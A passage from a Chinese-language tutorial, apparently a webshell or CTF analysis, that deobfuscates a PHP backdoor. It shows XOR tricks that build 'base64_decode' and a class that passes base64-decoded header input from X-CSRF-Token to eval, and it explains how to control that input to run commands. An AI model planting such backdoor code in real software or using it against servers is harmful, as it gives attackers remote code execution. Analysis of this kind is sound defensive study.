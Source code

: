 由 1.6 讲到的知识点，结合 PHP 代码可得：

> if (!isset($\_SESSION\['token'\])) 这行代码首先检查当前会话（session）中是否存在名为 "token" 的变量。  
> $\_SESSION 是用于在 PHP 中存储会话数据的关联数组，通常用于在不同页面之间共享数据。isset 函数用于检查变量是否已经被设置，如果变量存在并且有值，返回 true，否则返回 false。

所以根据知识点，我们要先给服务器发一个 `Token` 值，这样就可以进入 IF，服务器就会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

但 `Token` 只需要获取一次就行了，因为服务器生成并返还令牌（token）后，会存在会话（session）中，简单理解就是服务器的内存当中，后续的使用就不要添加`Token` 值了  
**【因为如果再获取，令牌（token）又会重新生成，就无法进入 else 的后续步骤，这一步可能有点绕，不明白的师傅不妨上手实践一下哈哈】**

```bash
$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
$b='DQHNGW'^'&0;+qc';
$b.= '_dec'.chr(111).'de';
$v=$b($v."");
```

由 8.1 讲到的异或和 0.1 讲到的拼接赋值，以上代码可转化为：

```bash
$v = $_SERVER['HTTP_X_CSRF_TOKEN'];
$b = "base64_decode";
$v = $b($v."");
```

意思就是，从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`

接下来我们再来看类 `class E` :

```bash
class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

同样根据相关知识点，我们可以将以上代码转化为以下：

```bash
class E {
        public function __construct($p) {
            $c = "base64_decode";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

意思就是类 `class E` 接受一个参数 `$p`，将其通过 Base64 解密后，放入高危函数 `eval` 内执行  
**那我们想要成功执行命令，就必须控制 `$p` 的传入值**

那我们看看所谓的 `$p` 是从哪里传入的吧：

```bash
@new E(set_token($v, $_SESSION['token']));
```
